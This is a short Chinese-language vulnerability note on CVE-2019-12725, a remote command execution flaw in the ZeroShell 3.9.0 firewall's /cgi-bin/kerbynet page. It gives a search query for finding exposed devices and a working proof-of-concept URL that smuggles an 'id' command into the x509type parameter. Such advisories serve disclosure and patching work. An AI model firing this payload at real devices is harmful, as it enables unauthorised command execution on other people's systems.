 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

# ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
ZeroShell < 3.9.0
```

## 网络测绘

```
app="Zeroshell-防火墙"
```

## 漏洞复现

登录页面如下



![](/images/202202162258497.png)

验证的POC为

```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](/images/202202162258777.png)

